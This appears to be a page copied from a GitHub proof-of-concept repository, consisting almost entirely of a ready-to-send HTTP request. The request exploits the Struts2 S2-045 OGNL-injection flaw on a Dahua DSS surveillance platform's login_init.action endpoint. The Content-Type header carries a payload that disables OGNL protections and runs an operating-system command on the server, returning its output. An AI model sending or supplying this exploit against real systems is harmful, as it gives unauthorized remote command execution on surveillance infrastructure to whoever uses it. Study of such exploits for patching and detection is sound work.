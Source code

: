 # dahuadss_login_init.action_struts2

from: https://github.com/wy876/POC/blob/main/%E5%A4%A7%E5%8D%8EDSS%E5%9F%8E%E5%B8%82%E5%AE%89%E9%98%B2%E7%9B%91%E6%8E%A7%E5%B9%B3%E5%8F%B0login_init.action%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8Struct2-045%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md

```
POST /portal/login_init.action HTTP/1.1
Host: 
Connection: close
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_333
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 0

```
